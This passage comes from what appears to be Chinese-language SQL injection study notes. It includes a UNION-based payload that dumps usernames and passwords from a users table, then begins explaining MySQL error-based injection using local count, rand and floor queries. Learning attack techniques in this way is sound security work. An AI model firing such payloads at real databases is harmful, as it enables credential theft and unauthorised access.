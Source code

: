 ```
**步骤8：**

查询内容
`union select 1,group_concat(username),group_concat(password) from users --+`

![image-20220114192749186](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114192749186.png)



https://pypi.douban.com/simple/





## 02报错注入（随机漏洞小知识、报错注入前提和原理、利用rand漏洞报错、高效的报错注入）

判定结果有还是没有
会不会报错

**报错注入**

### MySQL本地操作-随机漏洞-小知识：

使用工具：

PHPstudy

![image-20220114170041578](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114170041578.png)

![image-20220114193338380](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114193338380.png)

![image-20220114194034379](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114194034379.png)



**本地测试-小知识：**

```
select count(*) from table1;
计算多少条数据

select rand();
生成随机数0到1

select floor(1.2);
向下取整为1
